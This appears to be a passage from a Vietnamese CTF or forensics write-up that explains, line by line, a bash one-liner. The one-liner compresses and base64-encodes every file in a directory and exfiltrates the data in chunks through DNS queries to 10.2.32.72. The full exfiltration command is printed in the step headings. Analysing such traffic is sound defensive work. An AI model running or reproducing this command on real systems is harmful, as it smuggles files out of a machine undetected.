 ```

**1. `for f in $(ls .); do`**

- Khởi tạo vòng lặp lặp qua từng tệp (`f`) trong thư mục hiện tại (`.`).

**2. `s=4; b=50; c=0;`**

- Khởi tạo các biến:
    - `s`: Có thể là kích thước phân đoạn để chia dữ liệu (đặt thành 4).
    - `b`: Có thể là kích thước khối cho mã hóa Base64 (đặt thành 50 ký tự).
    - `c`: Một bộ đếm để theo dõi các phân đoạn (đặt thành 0).

**3. `for r in $(for i in $(gzip -c $f | base64 -w0 | sed "s/.\{$b\}/&\n/g"); do ...; done)`**

- Vòng lặp lồng nhau để xử lý từng tệp:
    - Nén tệp (`f`) bằng gzip.
    - Mã hóa dữ liệu đã nén bằng Base64.
    - Chia dữ liệu Base64 thành các dòng 50 ký tự bằng sed.
    - Lặp qua từng khối dữ liệu (`i`).

**4. `if [[ "$c" -lt "$s" ]]; then echo -ne "$i-."; c=$(($c+1)); else echo -ne "\n$i-."; c=1; fi`**

- Điều khiển định dạng phân đoạn:
    - Nếu bộ đếm (`c`) nhỏ hơn kích thước phân đoạn (`s`):
        - In khối (`i`) theo sau là "-." mà không có dấu xuống dòng.
        - Tăng bộ đếm (`c`) lên 1.
    - Ngược lại:
        - In một dấu xuống dòng, khối (`i`) theo sau là "-.".
        - Đặt lại bộ đếm (`c`) thành 1.

**5. `dig +tries=1 +timeout=1 +noidnin +noidnout @10.2.32.72 `echo -ne $r$(echo $f|base58)|tr "+" "}"|tr "/" "{"` +short`**

- Thực hiện truy vấn DNS cho mỗi khối (`r`):
    - Đặt các tùy chọn cụ thể cho dig:
        - Tối đa số lần thử lại: 1
        - Thời gian chờ: 1 giây
        - Ẩn thông tin bổ sung.
    - Truy vấn máy chủ DNS tại 10.2.32.72.
    - Tạo chuỗi truy vấn:
        - Ghép phần (`r`) vào tên tệp được mã hóa Base58 (`f`).
        - Thay thế "+" bằng "}" và "/" bằng "{" trong chuỗi truy vấn.
        - Yêu cầu chỉ câu trả lời ngắn từ truy vấn DNS.

**6. `done; done`**

- Đóng cả hai vòng lặp, kết thúc quá trình xử lý tệp và khối.
```
- Cũng có thể hiểu là đoạn code này nó sẽ mã hóa 1 đoạn dữ liệu nào đó , phần đầu sẽ là base64 còn phần sau sẽ là base58 (phần này mình xài bard nó nói thiếu) , và nó sẽ replace `+ -> } và / -> {` .